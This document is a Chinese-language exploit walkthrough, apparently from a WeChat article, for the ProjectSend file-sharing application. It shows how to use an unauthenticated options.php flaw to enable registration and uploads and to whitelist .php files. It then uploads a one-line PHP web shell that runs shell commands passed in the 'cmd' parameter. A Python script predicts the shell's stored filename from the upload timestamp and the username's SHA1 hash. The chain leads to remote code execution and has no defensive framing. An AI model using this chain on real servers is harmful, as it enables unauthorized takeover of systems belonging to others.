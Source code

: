 系统默认情况下是没有开启注册的，但是我们可以利用这个漏洞使系统开启注册功能和文件上传功能  
clients_can_register，clients_auto_approve 和 clients_can_upload  
  
看回显200的话就是开启成功了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7nQjE0iam3fF2OD6zt0oiccibjdg7zktS1QTUFNFXHPW3gwfOGeJlR5wMQ/640?wx_fmt=png&from=appmsg "")  
  
  
开启后就可以注册一个用户了，看回显示的话，请求头中有这个特征"Location: my_files/index.php"即为成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7BRLkxqaa9tOlq5aicNtMdjGa8fJGDJtF4Z4sFgyIuibdLrSlZcO0GFbg/640?wx_fmt=png&from=appmsg "")  
  
  
使用刚才注册的用户projectsendtest，正常可以登陆  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7JGZ30GAZhpX5OicmcPaYCUzbwAk1ibWrEpodbgWdicJWUZljmItpicloicQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
利用 options.php 上的漏洞，将 .php 添加到允许上传文件的扩展名白名单中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7KqTPAZoSKxrfhw2gFPFjzQiajUdSyL7wXDyFuXHYpSQHUl4ojhpXWLw/640?wx_fmt=png&from=appmsg "")  
  
  
看回显，200即为开启成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7frsFekAXQjY5PQLudlvBynic0IibpCqgmdGGTJGncTbheMy4JfTzJFFQ/640?wx_fmt=png&from=appmsg "")  
  
  
上传文件  
文件内容：<?php system($_GET['cmd']);?>  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7nf9Ea8Y6jJKUffr6iaVVjvMRX70iaI3EqiakEraN0WViaCHmM4eZMxkFDg/640?wx_fmt=png&from=appmsg "")  
  
  
点击save  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7gnRAUiaAu5LSEd8iabn9GYcBeUWW8ia5v1ZzlViaaRkTKx6ZAXvRQv4M0w/640?wx_fmt=png&from=appmsg "")  
  
  
要记录这个点击上传文件时的时间（不准的时候可能会相差个一两秒，可以通过列举前后几秒的形式来生成）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7dAicn44sQIGJS45QtR0UQhqYPjXShwf3m7O6PhrqZ9VQ3CUbOYeYvqg/640?wx_fmt=png&from=appmsg "")  
  
  
上传的文件名为以下格式  
{timestamp}-{sha1(username)}-{filename}  
```
#!/usr/bin/env python3
# coding=utf-8
import datetime
import pytz
import hashlib
#上传文件的时间
date = '2024-11-29 20:21:51'
beijing_time =datetime.datetime.strptime(date, '%Y-%m-%d %H:%M:%S')
#时区要和options.php里面的时区一致，一般默认安装的话是Shanghai,如果不是的话，可以通过未授权的操作改下这个时区为Shanghai
beijing_tz = pytz.timezone('Asia/Shanghai')
localized_beijing_time = beijing_tz.localize(beijing_time)
timestamp = int(localized_beijing_time.timestamp())
#注册的用户名
input_string='projectsendtest'
sha1 = hashlib.sha1()
sha1.update(input_string.encode('utf-8'))
hash_value = sha1.hexdigest()
#上传的文件名，这里为cmd.php
name='{}-{}-{}'.format(timestamp,hash_value,'cmd.php')
print (name)
```  
  
